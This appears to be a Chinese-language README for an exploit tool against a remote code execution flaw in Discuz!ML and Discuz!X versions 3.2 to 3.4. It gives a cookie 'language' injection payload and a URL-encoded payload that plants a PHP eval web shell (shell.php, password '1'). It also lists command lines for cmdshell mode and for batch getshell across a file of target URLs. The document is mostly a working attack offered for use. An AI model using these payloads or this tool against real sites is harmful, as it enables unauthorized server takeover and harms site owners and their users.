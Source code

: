 # discuz-ml-rce
影响系统及版本：Discuz!ML V3.2-3.4 Discuz!x V3.2-3.4
漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。




cookie字段中会出现xxxx_xxxx_language字段，根本原因就是这个字段存在注入，导致的RCE

抓包找到cookie的language的值修改为

xxxx_xxxx_language=sc'.phpinfo().'


getshell

%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27
实际为：

'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).'



即可在路径下生成shell.php，连接密码为1



==================================================================================================================================================
判断是否存在漏洞

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php"


cmdshell模式

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php" --cmdshell


getshell模式

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php" --getshell


批量检测

python dz-ml-rce.py -f urls.txt


批量getshell

python dz-ml-rce.py -f urls.txt --getshell




